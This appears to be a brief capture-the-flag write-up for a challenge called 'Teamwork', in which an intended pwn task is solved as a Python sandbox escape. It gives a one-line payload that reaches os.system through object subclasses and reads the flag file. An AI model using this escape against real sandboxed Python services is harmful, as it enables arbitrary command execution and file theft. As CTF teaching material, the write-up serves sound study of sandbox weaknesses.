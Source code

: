 # Teamwork

Recently, the elves made few studies about their teamwork capabilities and the conclusion was that they are performing great, but they say that there's room for improvement. To achieve this goal, they written a demo software for coordinating their work even better.

Do you want to help them please and report any bugs you find?

---

This was supposed to be a standard pwn challenge, but there was a flaw in the Python code that allowed it to be a pyjail challenge instead.

```
[x for x in [].__class__.__base__.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__["system"]("cat home/ctf/flag.txt")
```
